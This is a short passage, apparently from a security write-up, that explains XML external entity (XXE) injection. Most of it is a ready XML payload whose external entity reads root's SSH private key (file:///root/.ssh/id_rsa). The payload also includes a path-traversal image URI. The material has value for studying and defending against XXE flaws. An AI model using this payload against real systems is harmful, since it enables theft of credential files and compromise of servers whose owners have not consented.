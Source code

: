 When an XML is vulnerable to XXE injection, adding an xxe entity of element foo into the xml file and adding it to the fields afterwards as a reference, can be used to read files and more.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```